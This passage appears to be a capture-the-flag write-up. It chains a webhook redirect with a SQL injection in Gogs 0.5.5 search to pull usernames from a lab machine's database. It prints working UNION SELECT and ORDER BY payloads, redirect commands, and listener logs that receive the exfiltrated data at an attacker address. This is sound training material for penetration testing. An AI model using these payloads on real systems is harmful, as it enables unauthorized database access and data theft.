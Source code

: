 
### Step 2
Reading about gogs version 0.5.5.1010 it's vulnerable to [SQL Injection through the search](https://www.exploit-db.com/exploits/35238). 

The PoC code isn't working right of the bat, we're returned `"health":"down"` indicating that the SQL syntax is broken somewhere.
```
http://www.example.com/api/v1/users/search?q='/**/and/**/false)/**/union/**/
select/**/null,null,@@version,null,null,null,null,null,null,null,null,null,null,
null,null,null,null,null,null,null,null,null,null,null,null,null,null/**/from
/**/mysql.db/**/where/**/('%25'%3D'
```

Playing around and trying to simplify I get simple `ORDER BY` to give some response:
```bash
➜  health python3 redirect.py 80 "http://127.0.0.1:3000/api/v1/users/search?q=')/**/order/**/by/**/27--/**/-"
10.129.9.180 - - [23/Aug/2022 16:10:00] "GET / HTTP/1.0" 302 -

➜  health python3 webserv.py 8888
INFO:root:POST request,
Path: /
Headers:
Host: 10.10.14.20:8888
Accept: */*
Content-type: application/json
Content-Length: 575



Body:
{"webhookUrl":"http:\/\/10.10.14.20:8888\/","monitoredUrl":"http:\/\/10.10.14.20\/","health":"up","body":"{\"data\":[{\"username\":\"susanne\",\"avatar\":\"\/\/1.gravatar.com\/avatar\/c11d48f16f254e918744183ef7b89fce\"}],\"ok\":true}","message":"HTTP\/1.0 302 Found","headers":{"Server":"BaseHTTP\/0.6 Python\/3.10.5","Date":"Tue, 23 Aug 2022 14:08:01 GMT","Location":"http:\/\/127.0.0.1:3000\/api\/v1\/users\/search?q=')\/**\/order\/**\/by\/**\/20--\/**\/-","Content-Type":"application\/json; charset=UTF-8","Set-Cookie":"_csrf=; Path=\/; Max-Age=0","Content-Length":"111"}}

10.129.9.180 - - [23/Aug/2022 16:08:00] "POST / HTTP/1.1" 200 -
```

**NOTE:** `{\"data\":[{\"username\":\"susanne\",\"avatar\":\"\/\/1.gravatar.com\/avatar\/c11d48f16f254e918744183ef7b89fce\"}` is the exfiltrated data. Normally it just returns `{\"data\":[]\}`.

But trying with 28 columns breaks the syntax. 

Next we need to find a injectable column, and trying the normal `@@version` doesn't give any result. As hinted from the poc, column 3 should be injectable so after playing around with some commands I able to extract the username (which I already knew) - thus proving that column 3 is correct and we should focus more here.

```bash
➜  health python3 redirect.py 80 "http://127.0.0.1:3000/api/v1/users/search?q=')/**/union/**/all/**/select/**/null,null,(select/**/name/**/from/**/user),null,null,null,null,null,null,null,null,null,null,null,null,null,null,null,null,null,null,null,null,null,null,null,null--/**/-"
10.129.9.180 - - [23/Aug/2022 16:57:01] "GET / HTTP/1.0" 302 -


## Response
INFO:root:POST request,
Path: /
Headers:
Host: 10.10.14.20:8888
Accept: */*
Content-type: application/json
Content-Length: 825
```